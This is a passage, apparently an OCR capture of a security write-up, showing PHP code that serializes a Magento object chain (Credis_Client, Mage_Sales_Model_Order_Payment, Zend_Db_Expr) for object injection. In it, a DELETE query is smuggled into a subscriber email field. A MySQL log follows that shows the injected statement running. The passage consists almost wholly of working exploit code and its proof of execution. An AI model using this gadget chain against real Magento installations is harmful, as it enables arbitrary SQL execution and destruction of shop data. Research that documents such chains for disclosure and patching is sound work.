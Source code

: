 ```php?start_inline=1
    protected $_isFailsafe;
    protected $_paymentObject;
    protected $_data;
    protected $_resourceName;
    protected $_idFieldName;

    public function __construct()
    {
        $this->_isFailsafe = true;
        $this->_paymentObject = new Mage_Sales_Model_Order_Payment;
        $this->_data = [
            'order_id' => 1,
            'subscriber_email' => new Zend_Db_Expr("'subscriber@example.com'); DELETE FROM newsletter_subscriber WHERE subscriber_email = 'subscriber@example.com'; SELECT (1")
        ];
        $this->_resourceName = 'newsletter/subscriber';
        $this->_idFieldName = 'id';
    }
}

class Zend_Db_Expr
{
    protected $_expression;

    public function __construct($expression)
    {
        $this->_expression = $expression;
    }
}

class Mage_Sales_Model_Order_Payment
{
    protected $_idFieldName;

    public function __construct()
    {
        $this->_idFieldName = 'id';
    }
}

echo urlencode(serialize(new Credis_Client));
```

Tailing the MySQL general log we can see it happen...

```
170724 11:51:34	  837 Connect	root@localhost on magento
		  837 Query	SET SQL_MODE=''
		  837 Query	SET NAMES utf8
		  837 Query	START TRANSACTION
		  837 Query	INSERT INTO `newsletter_subscriber` (`subscriber_email`) VALUES ('subscriber@example.com');
		  837 Query	DELETE FROM newsletter_subscriber WHERE subscriber_email = 'subscriber@example.com';
		  837 Query	SELECT (1)
		  837 Query	COMMIT
```
